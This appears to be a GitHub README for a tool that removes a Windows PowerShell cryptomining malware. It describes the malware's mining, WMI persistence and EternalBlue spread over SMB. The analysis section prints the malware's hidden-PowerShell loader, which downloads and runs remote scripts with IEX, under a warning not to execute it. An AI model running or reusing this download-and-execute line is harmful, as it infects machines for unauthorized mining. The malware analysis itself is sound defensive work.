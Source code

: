 # AntiMining-info6

#### By Carlos Ramírez López

### ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:
1- Performance modification in the computer equipment to "high performance" through the Windows registry.
2- Mining of cryptocurrencies, increasing CPU processing between 70% and 100%.
3- Persistence in infected computers, modifications of Windows variable classes.
4- Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment.

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
